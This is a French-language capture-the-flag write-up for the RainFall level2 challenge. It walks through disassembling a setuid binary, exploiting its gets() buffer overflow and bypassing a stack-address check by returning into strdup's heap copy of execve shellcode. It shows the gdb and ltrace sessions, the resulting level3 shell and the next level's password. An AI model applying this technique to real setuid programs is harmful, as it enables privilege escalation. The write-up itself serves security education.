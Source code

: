On a un binaire avec le flag setuid
```
level2@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level3 users 5403 Mar  6  2016 level2
```
On désassemble
```asm
level2@RainFall:~$ objdump -d intel  ./level2 -M intel
080484d4 <p>:
 80484d4:	55                   	push   ebp
 80484d5:	89 e5                	mov    ebp,esp
 80484d7:	83 ec 68             	sub    esp,0x68
 80484da:	a1 60 98 04 08       	mov    eax,ds:0x8049860
 80484df:	89 04 24             	mov    DWORD PTR [esp],eax
 80484e2:	e8 c9 fe ff ff       	call   80483b0 <fflush@plt>
 80484e7:	8d 45 b4             	lea    eax,[ebp-0x4c]
 80484ea:	89 04 24             	mov    DWORD PTR [esp],eax
 80484ed:	e8 ce fe ff ff       	call   80483c0 <gets@plt>
 80484f2:	8b 45 04             	mov    eax,DWORD PTR [ebp+0x4]
 80484f5:	89 45 f4             	mov    DWORD PTR [ebp-0xc],eax
 80484f8:	8b 45 f4             	mov    eax,DWORD PTR [ebp-0xc]
 80484fb:	25 00 00 00 b0       	and    eax,0xb0000000
 8048500:	3d 00 00 00 b0       	cmp    eax,0xb0000000
 8048505:	75 20                	jne    8048527 <p+0x53>
 8048507:	b8 20 86 04 08       	mov    eax,0x8048620
 804850c:	8b 55 f4             	mov    edx,DWORD PTR [ebp-0xc]
 804850f:	89 54 24 04          	mov    DWORD PTR [esp+0x4],edx
 8048513:	89 04 24             	mov    DWORD PTR [esp],eax
 8048516:	e8 85 fe ff ff       	call   80483a0 <printf@plt>
 804851b:	c7 04 24 01 00 00 00 	mov    DWORD PTR [esp],0x1
 8048522:	e8 a9 fe ff ff       	call   80483d0 <_exit@plt>
 8048527:	8d 45 b4             	lea    eax,[ebp-0x4c]
 804852a:	89 04 24             	mov    DWORD PTR [esp],eax
 804852d:	e8 be fe ff ff       	call   80483f0 <puts@plt>
 8048532:	8d 45 b4             	lea    eax,[ebp-0x4c]
 8048535:	89 04 24             	mov    DWORD PTR [esp],eax
 8048538:	e8 a3 fe ff ff       	call   80483e0 <strdup@plt>
 804853d:	c9                   	leave  
 804853e:	c3                   	ret    

0804853f <main>:
 804853f:	55                   	push   ebp
 8048540:	89 e5                	mov    ebp,esp
 8048542:	83 e4 f0             	and    esp,0xfffffff0
 8048545:	e8 8a ff ff ff       	call   80484d4 <p>
 804854a:	c9                   	leave  
 804854b:	c3                   	ret    
 804854c:	90                   	nop
 804854d:	90                   	nop
 804854e:	90                   	nop
 804854f:	90                   	nop
```
On remarque l'appel à **fflush**, **gets**, **puts** et **strdup**. La fonction p est intéressante. Elle est appelé par main et utilise la fonction gets dont nous savons qu'elle est vulnérable aux attaques buffer overflow.
Cependant il y a un contrôle:
```asm
 80484f8:	8b 45 f4             	mov    eax,DWORD PTR [ebp-0xc]
 80484fb:	25 00 00 00 b0       	and    eax,0xb0000000
 8048500:	3d 00 00 00 b0       	cmp    eax,0xb0000000
 8048505:	75 20                	jne    8048527 <p+0x53>
```
Il semble vérifier si **eax** contient une adresse appartenant à la plage 0xb0000000 - 0xbfffffff, qui correspond à la plage des adresses du Kernel ou de la Stack.
Étant donné qu'il n'y a pas de fonction cachée avec un appel à **system** comme dans **level1**, nous devrons injecter la nôtre.
Nous allons d'abord essayer de détourner le registre de retour **eax** pour exploiter la vulnérabilité de **gets**. L'adresse de retour sera celle du buffer de **gets**, et le buffer contiendra du **shellcode**.
Nous utilisons la même tactique que pour **level1** afin de déterminer l'offset :
```
level2@RainFall:~$ python /tmp/pattern3.py
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
level2@RainFall:~$ gdb -q ./level2
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x8048542
(gdb) b p
Breakpoint 2 at 0x80484da
(gdb) r
Starting program: /home/user/level2/level2

Breakpoint 1, 0x08048542 in main ()
(gdb) s
Single stepping until exit from function main,
which has no line number information.

Breakpoint 2, 0x080484da in p ()
(gdb) disas main
Dump of assembler code for function main:
   0x0804853f <+0>:     push   %ebp
   0x08048540 <+1>:     mov    %esp,%ebp
   0x08048542 <+3>:     and    $0xfffffff0,%esp
   0x08048545 <+6>:     call   0x80484d4 <p>
   0x0804854a <+11>:    leave
   0x0804854b <+12>:    ret
End of assembler dump.
(gdb) b *0x0804854b
Breakpoint 3 at 0x804854b
(gdb) c
Continuing.
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A6Ac72Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
(gdb) quit
A debugging session is active.

        Inferior 1 [process 12242] will be killed.

Quit anyway? (y or n) y
level2@RainFall:~$ python /tmp/pattern3.py > /tmp/2.txt
level2@RainFall:~$ python /tmp/pattern3.py /tmp/2.txt 0x37634136
offset found at: 80
```
On a trouvé un offset à 80 octets. Essayons d'injecter le **shelcode** à l'adresse de retour:
```
level2@RainFall:~$ gdb -q ./level2
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x8048542
(gdb) b p
Breakpoint 2 at 0x80484da
(gdb) r
Starting program: /home/user/level2/level2

Breakpoint 1, 0x08048542 in main ()
(gdb) s
Single stepping until exit from function main,
which has no line number information.

Breakpoint 2, 0x080484da in p ()
(gdb) disas p
Dump of assembler code for function p:
   0x080484d4 <+0>:     push   %ebp
   0x080484d5 <+1>:     mov    %esp,%ebp
   0x080484d7 <+3>:     sub    $0x68,%esp
=> 0x080484da <+6>:     mov    0x8049860,%eax
   0x080484df <+11>:    mov    %eax,(%esp)
   0x080484e2 <+14>:    call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:    lea    -0x4c(%ebp),%eax
   0x080484ea <+22>:    mov    %eax,(%esp)
   0x080484ed <+25>:    call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:    mov    0x4(%ebp),%eax
   0x080484f5 <+33>:    mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:    mov    -0xc(%ebp),%eax
   0x080484fb <+39>:    and    $0xb0000000,%eax
   0x08048500 <+44>:    cmp    $0xb0000000,%eax
   0x08048505 <+49>:    jne    0x8048527 <p+83>
   0x08048507 <+51>:    mov    $0x8048620,%eax
   0x0804850c <+56>:    mov    -0xc(%ebp),%edx
   0x0804850f <+59>:    mov    %edx,0x4(%esp)
   0x08048513 <+63>:    mov    %eax,(%esp)
   0x08048516 <+66>:    call   0x80483a0 <printf@plt>
   0x0804851b <+71>:    movl   $0x1,(%esp)
   0x08048522 <+78>:    call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:    lea    -0x4c(%ebp),%eax
   0x0804852a <+86>:    mov    %eax,(%esp)
   0x0804852d <+89>:    call   0x80483f0 <puts@plt>
   0x08048532 <+94>:    lea    -0x4c(%ebp),%eax
   0x08048535 <+97>:    mov    %eax,(%esp)
   0x08048538 <+100>:   call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:   leave
   0x0804853e <+106>:   ret
End of assembler dump.
```
On veut le buffer de retour, donc on met un break point après l'appel a **gets**: 0x080484f2 
```
(gdb) b *0x080484f2
Breakpoint 3 at 0x80484f2
(gdb) s
Single stepping until exit from function p,
which has no line number information.
aaaaaaa

Breakpoint 3, 0x080484f2 in p ()
(gdb) i r
eax            0xbffff6dc       -1073744164
ecx            0xb7fd28c4       -1208145724
edx            0xbffff6dc       -1073744164
ebx            0xb7fd0ff4       -1208152076
esp            0xbffff6c0       0xbffff6c0
ebp            0xbffff728       0xbffff728
esi            0x0      0
edi            0x0      0
eip            0x80484f2        0x80484f2 <p+30>
eflags         0x200282 [ SF IF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
```
in eax the buffer is at address 0xbffff6dc, lets try to inject here.
Our shell code is 21 bytes long, the limit is 80 bytes so we first have our 21 bytes shellcode then 59 random bytes then 4 bytes for the address
```
level2@RainFall:~$ python /tmp/exploit3.py  0xbffff6dc 59
crafting payload...
done:
/tmp/payload_level2
level2@RainFall:~$ cat /tmp/payload_level2 - | ./level2

(0xbffff6dc)

```
Cela a échoué parce que nous ne pouvons pas écrire sur la Stack, mais sur la Heap, cela semble fonctionner. strdup renvoie l'adresse suivante :
```
level2@RainFall:~$ ltrace ./level2
__libc_start_main(0x804853f, 1, 0xbffff7f4, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)                       = 0
gets(0xbffff6fc, 0, 0, 0xb7e5ec73, 0x80482b5
TEST!
)                                        = 0xbffff6fc
puts("TEST!"
TEST!
)                                        = 6
strdup("TEST!")                          = 0x0804a008
+++ exited (status 8) +++
```
Nous réessayons avec cette adresse allouée par **malloc**:
```
level2@RainFall:~$ python /tmp/exploit3.py  0x0804a008 59
crafting payload...
done:
/tmp/payload_level2
level2@RainFall:~$ cat /tmp/payload_level2 - | ./level2

j
 X�Rh//shh/bin��1�̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
id
uid=2021(level2) gid=2021(level2) euid=2022(level3) egid=100(users) groups=2022(level3),100(users),2021(level2)
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```
